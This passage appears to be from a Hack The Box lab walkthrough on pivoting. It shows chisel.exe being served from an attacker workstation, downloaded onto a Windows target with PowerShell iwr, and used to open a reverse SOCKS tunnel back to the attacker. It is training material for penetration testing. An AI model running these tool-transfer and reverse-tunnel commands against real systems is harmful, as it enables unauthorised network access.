 ```
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ mv chisel_1.9.1_windows_amd64 chisel.exe

┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ chmod +x chisel_1.9.1_linux_amd64
```

Students will start a Python HTTP server to transfer the `chisel.exe` onto the target machine:

Code: shell

```shell
python3 -m http.server
```

```
┌─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Subsequently, students will return to the RDP session and the previously spawned `PowerShell` window, where they will proceed to download the executable:

Code: powershell

```powershell
iwr -uri http://PWNIP:8000/chisel.exe -o chisel.exe
```

```
PS C:\Users\helen> iwr -uri http://10.10.15.174:8000/chisel.exe -o chisel.exe
```

Students will return to their workstations, they can terminate the Python HTTP server, and they will proceed to start `chisel` in `server` mode:

Code: shell

```shell
./chisel_1.9.1_linux_amd64 server --reverse 
```

```
┌─[✗]─[htb-ac-8414@htb-qm41uzp2hn]─[~]
└──╼ $ ./chisel_1.9.1_linux_amd64 server --reverse

2024/07/10 05:31:27 server: Reverse tunnelling enabled
2024/07/10 05:31:27 server: Fingerprint KR7B7NniaZ35DIiLDhAO153+Iur8NfJ5BP1KNtyIarI=
2024/07/10 05:31:27 server: Listening on http://0.0.0.0:8080
```

Subsequently, students will return to the RDP session to establish the dynamic port-forwarding using `chisel` in `client` mode:

Code: powershell

```powershell
.\chisel.exe client PWNIP:8080 R:socks
```
